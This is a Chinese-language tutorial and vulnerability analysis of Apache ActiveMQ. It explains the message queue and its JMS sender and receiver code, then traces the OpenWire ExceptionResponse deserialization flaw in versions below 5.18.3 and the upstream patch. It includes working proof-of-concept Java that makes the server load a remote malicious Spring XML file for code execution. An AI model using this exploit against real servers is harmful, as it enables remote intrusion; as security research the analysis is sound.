# ActiveMQ Intro

ActiveMQ是一个消息队列，消息队列是在消息的传输过程中保存消息的容器，提供不同进程或同一进程不同线程之间的通讯方式，基于JMS规范（JMS：Java Message Service Java消息服务，有一套API接口）

其他类似的消息中间件：RabbitMQ、Kafka、RocketMQ、ZeroMQ

消息中间件的作用主要有3点

* 异步性提升性能（放入消息队列，不需要立即处理）
* 降低耦合度
* 流量削峰（消息中间件起到了缓冲的作用）


* producer：消息生产者
* broker：消息处理中心，存储、确认、重试（broker可以翻译成代理）
* consumer：消息消费者

ActiveMQ支持多种应用协议：OpenWire（常用）、StompREST、WSNotification、AMQP。

提供了两种消息模式：点对点模式（Queue）、发布订阅模式（Topic）

点对点模式中队列的消息只会被一个消费者所消费


发布订阅模式中每个订阅者都会收到消息



JMS定义的消息体类型有如下几种：

| 属性          | 类型             |
| ------------- | ---------------- |
| TextMessage   | 文本消息         |
| MapMessage    | k/v              |
| BytesMessage  | 字节流           |
| StreamMessage | java原始的数据流 |
| ObjectMessage | 序列化的java对象 |

# Quick Start

windows下ActiveMQ下载👉https://activemq.apache.org/download-archives.html

这里下载5.18.2版本，`/bin/win64`目录下有一个`activemq.bat`，ActiveMQ默认端口为61616

ActiveMQ还提供了管理员控制台`http://localhost:8161/admin/`

默认账号密码admin/admin

Java引入依赖

```xml
<dependency>
    <groupId>org.apache.activemq</groupId>
    <artifactId>activemq-all</artifactId>
    <version>5.18.2</version>
</dependency>
```

`Provider`

```java
import org.apache.activemq.ActiveMQConnectionFactory;

import javax.jms.*;
public class JmsSender {
    public static void main(String[] args) {
        Connection connection = null;
        Session session = null;
        try {
            String brokerURL = "tcp://127.0.0.1:61616";
            // create ConnectionFactory
            ConnectionFactory mqConnectionFactory = new ActiveMQConnectionFactory(brokerURL);

            connection = mqConnectionFactory.createConnection();
            connection.start();
            /**
             * Session createSession(boolean transacted, int acknowledgeMode) 创建会话
             * transacted ：表示是否开启事务
             * acknowledgeMode：表示会话确认模式
             *      AUTO_ACKNOWLEDGE 自动确认
             *      CLIENT_ACKNOWLEDGE 客户确认
             */
            session = connection.createSession(Boolean.TRUE, Session.AUTO_ACKNOWLEDGE);
            /**
             * createQueue(String queueName)：创建消息队列，指定队列名称，消费者可以根据队列名称获取消息
             */
            Destination destination = session.createQueue("queue-app");
            MessageProducer producer = session.createProducer(destination);
            int massageTotal = 5;
            for (int i = 0; i < massageTotal; i++) {
                // 创建一个文本消息
                TextMessage textMessage = session.createTextMessage("Round " + (i + 1) + "\n");
                producer.send(textMessage);  // 生产者发送消息
                session.commit();  // 会话提交
            }
        } catch (JMSException e) {
            e.printStackTrace();
        } finally {
            if (session != null) {
                try {
                    session.close(); //关闭会话
                } catch (JMSException e) {
                    e.printStackTrace();
                }
            }
            if (connection != null) {
                try {
                    connection.close(); //关闭连接
                } catch (JMSException e) {
                    e.printStackTrace();
                }
            }
        }
    }
}
```

`Consumer`

```java
import org.apache.activemq.ActiveMQConnectionFactory;
import javax.jms.*;

public class JmsReceiver {
    public static void main(String[] args) {
        Connection connection = null;
        Session session = null;
        try {
            String brokerURL = "tcp://127.0.0.1:61616";
            ConnectionFactory mqConnectionFactory = new ActiveMQConnectionFactory(brokerURL);

            connection = mqConnectionFactory.createConnection();
            connection.start();

            session = connection.createSession(Boolean.TRUE, Session.AUTO_ACKNOWLEDGE);

            Destination destination = session.createQueue("queue-app");
            MessageConsumer consumer = session.createConsumer(destination);
            int massageTotal = 5;
            for (int i = 0; i < massageTotal; i++) {
                TextMessage message = (TextMessage) consumer.receive(); // 消费者接收消息。因为对方发送的文本消息，所以可以强转
                session.commit(); // 确认消息，告诉中间件，消息已经确认接收
                System.out.println((i + 1) + ": " + message.getText());  // 获取消息文本
            }
        } catch (JMSException e) {
            e.printStackTrace();
        } finally {
            if (session != null) {
                try {
                    session.close();//关闭会话
                } catch (JMSException e) {
                    e.printStackTrace();
                }
            }
            if (connection != null) {
                try {
                    connection.close();//关闭连接
                } catch (JMSException e) {
                    e.printStackTrace();
                }
            }
        }
    }
}
```

`Consumer`端成功打印文本消息





# Analysis

漏洞版本：ActiveMQ < 5.18.3

攻击对象：ActiveMQ服务端

`ExceptionResponseMarshaller`的`tightUnmarshal`或`looseUnmarshal`





会调用到父类的`BaseDataStreamMarshaller`的`tightUnmarsalThrowable`或`looseUnmarsalThrowable`



分别反序列化类名和消息，接着调用`createThrowable`



调用了类的构造方法，且构造方法只接收一个字符串

上面可知ActiveMQ的8161端口提供了一个管理员控制台，那就大概率依赖了`Spring Web`，看一下`ActiveMQ`的`lib`目录，果然有。

那就可以考虑调用`org.springframework.context.support.ClassPathXmlApplicationContext`的构造方法，远程加载恶意xml文件RCE。

ActiveMQ服务端接收到消息后，会调用`org.apache.activemq.openwire.OpenWireFormat#unmarshal`

`unmarshal`再到`doUnmarshal`，从数据流里读取数据类型，获取对应的序列化器，调用其`tightUnmarshal`或`looseUnmarshal`

为接上面的sink点，我们这里需要获取到`ExceptionResponseMarshaller`



对应的，客户端发送消息，会调用`marshal`，也是根据类型获取序列化器



看看`ExceptionResponseMarshaller#tightMarshal1` -> `BaseDataStreamMarshaller#tightMarshalThrowable1`



这里获取了异常类的类名和消息（`Throwable`继承了其父类的`message`属性）

`ExceptionResponseMarshaller`即为`ExceptionResponse`的序列化器



异常打印的消息来自于`exception`成员，所以`ClassPathXmlApplicationContext`需要继承`Throwable`



```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable{
    private String message;

    public ClassPathXmlApplicationContext(String message) {
        this.message = message;
    }

    @Override
    public String getMessage() {
        return message;
    }
}
```

```java
package org.example;

import org.apache.activemq.ActiveMQConnectionFactory;
import org.apache.activemq.ActiveMQSession;
import org.apache.activemq.command.ExceptionResponse;
import org.springframework.context.support.ClassPathXmlApplicationContext;

import javax.jms.*;

public class Main {
    public static void main(String[] args) throws Exception {
        ConnectionFactory connectionFactory = new
            ActiveMQConnectionFactory("tcp://127.0.0.1:61616");

        Connection connection = connectionFactory.createConnection("admin", "admin");
        connection.start();
        ActiveMQSession session = (ActiveMQSession) connection.createSession(Boolean.TRUE, Session.AUTO_ACKNOWLEDGE);
        ExceptionResponse exceptionResponse = new ExceptionResponse();

        exceptionResponse.setException(new ClassPathXmlApplicationContext("http://127.0.0.1:8081/poc.xml"));
        session.syncSendPacket(exceptionResponse);
        connection.close();
    }
}
```



# Patch

https://github.com/apache/activemq/compare/activemq-5.18.3...activemq-6.0.0

新版本`BaseDataStreamMarshaller#createThrowable`增加了一处判断



`OpenWireUtil#validateIsThrowable`判断类是否为`Throwable`的子类，否则抛出异常

